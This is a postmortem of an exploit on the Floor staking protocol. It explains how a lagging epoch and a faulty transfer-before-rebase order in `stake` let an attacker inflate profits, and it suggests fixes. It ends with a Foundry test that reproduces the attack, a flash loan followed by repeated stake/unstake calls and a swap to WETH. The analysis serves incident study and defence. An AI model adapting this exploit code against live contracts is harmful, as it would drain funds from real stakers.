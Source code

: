 This attack resulted from the combination of the two aforementioned reasons: the lagging epoch allowed the attacker to perform multiple rebases in a single transaction, and the bug in the `stake` function, which involved an incorrect `transfer->rebase` order, caused a balance calculation discrepancy. This allowed the attacker to stake a large number of Floor tokens to inflate the next epoch's `profit` and thereby gain more profit.

Other users who had staked before the attack could also profit (since a large number of sFloor tokens were distributed). However, the attacker immediately sold the Floor tokens after the attack, causing the Floor price to drop, indirectly causing losses to other Floor stakers.

To address the lagging epoch issue, it would be advisable to set up bots to perform real-time rebases and update the epoch. Regarding the bug in the `stake` function, the correct approach should be to first call `rebase`, calculate the `profit` for the next epoch, and then transfer the Floor tokens.

## Exploit

### Reproduction

Based on the above analysis, combined with the AttackTx, the exploit can be reproduced as follows:

```solidity
function testExploit() external {
    uint attackBlockNumber = 18068772;
    // uint attackBlockNumber = 17068772;
    vm.rollFork(attackBlockNumber);
    (, uint256 number, uint256 end, ) = staking.epoch();
    emit log_named_uint("Epoch number", number);
    emit log_named_uint("Epoch end", end);
    emit log_named_decimal_uint("floor balanceOf StakingPool", floor.balanceOf(address(staking)), floor.decimals());
    emit log_named_decimal_uint("floor balanceOf Pair", floor.balanceOf(address(floor_weth)), floor.decimals());
    emit log_named_decimal_uint("sFloor sirculatingSupply", sFloor.circulatingSupply(), sFloor.decimals());

    flashAmount = floor.balanceOf(address(floor_weth)) - 1;
    floor_weth.flash(address(this), 0, flashAmount, "");

    uint256 profitAmount = floor.balanceOf(address(this));
    emit log_named_decimal_uint("floor balance after exploit", profitAmount, floor.decimals());
    floor_weth.swap(address(this), false, int256(profitAmount), uint160(0xfFfd8963EFd1fC6A506488495d951d5263988d25), "");
    emit log_named_decimal_uint("weth balance after swap", weth.balanceOf(address(this)), weth.decimals());
}

function uniswapV3FlashCallback(uint256 /*fee0*/ , uint256 fee1, bytes calldata) external {
    uint i = 0;
    while(i < 17) {
        uint balanceAttacker = floor.balanceOf(address(this));
        uint balanceStaking = floor.balanceOf(address(staking));
        uint circulatingSupply = sFloor.circulatingSupply();
        if (balanceAttacker + balanceStaking > circulatingSupply) {  // will produce profit in next epoch
            floor.approve(address(staking), balanceAttacker);
            staking.stake(address(this), balanceAttacker, false, true); // get gFloor
            uint gFloorBalance = gFloor.balanceOf(address(this));
            staking.unstake(address(this), gFloorBalance, true, false);
            i += 1;
        }
    }
    floor.transfer(msg.sender, flashAmount + fee1);
}

```